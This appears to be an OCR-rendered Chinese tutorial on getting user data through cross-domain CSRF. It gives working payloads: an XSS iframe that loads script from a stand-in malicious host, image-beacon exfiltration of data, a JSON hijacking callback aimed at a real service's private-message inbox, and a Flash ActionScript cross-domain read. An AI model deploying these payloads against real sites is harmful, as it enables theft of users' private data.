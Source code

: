 同域内 CSRF 攻击获取数据几乎没任何限制。

跨域 CSRF 攻击获取数据的几种方法总结如下：

1、XSS 

2、服务端代理技术

3、JSON Hijacing

4、Flash AsctionScript（crossdomain.xml）

（1）XSS 获取数据：

如之前关于XSS文章做的三方的演示，使用目标站点上的XSS 漏洞：

<iframe width=0 height=0 src=‘http://目标站点/search.php?k=“><script src=http://恶意站点/get.js></script>’></iframe>

其中get.js 的代码为：

//use DOM method to get your data

new Image(). src=‘http://恶意站点/a.php?data=‘+data;

恶意站点的 a.php 文件接收唯一标识等数据，该唯一标识可以是 url 中的或是目标站点url 对应的内容中的。这样受害者就会访问到第三方的恶意网站从而泄露信息。

（2）使用 JSON Hijacking技术：

目标站点使用了 JSON 数据传输用户私有数据，其中包含需要的唯一标识等信息。

相关代码：

<script> function hijack(o){

//use DOM method to get your data

new Image().src="http://192.168.1.2/JSONHiJack.asp?hi="+escape(data);

}</script>

<script src=http://api.fanfou.com/private_messages/inbox.json?callback=hijack&count=2></script>

三、使用Flash ActionScript 脚本：

前提是目标站点下存在crossdomain.xml文件，且其配置允许其他域的 AS脚本进行跨域请求。

<?xml version="1.0"?>

<cross-domain-policy>

<allow-access-from domain="*" />

</cross-domain-policy>

相关代码：

import flash.net.*; 

var _l = new URLLoader(new URLRequest(“http://目标站点/"));

_l.addEventListener(Event.COMPLETE,function(){text1.text = _l.data});

_l.load();
